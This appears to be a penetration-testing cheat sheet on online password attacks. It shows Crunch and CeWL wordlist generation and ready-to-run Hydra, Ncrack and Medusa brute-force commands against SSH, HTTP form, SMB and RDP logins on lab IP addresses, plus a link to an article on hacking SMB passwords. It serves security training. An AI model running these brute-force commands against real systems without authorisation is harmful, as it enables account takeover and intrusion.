 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```text
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```text
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```text
./crunch 1 1 -p pen test lab
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```text
./crunch 6 6 0123456789 -b 1mb -o START
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```text
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

```text
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```text
cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org
```

## Bruteforce

### Hydra

```text
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```text
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```text
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```text
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%281%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

```text
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
```

#### SMB Bruteforce

```text
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```text
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

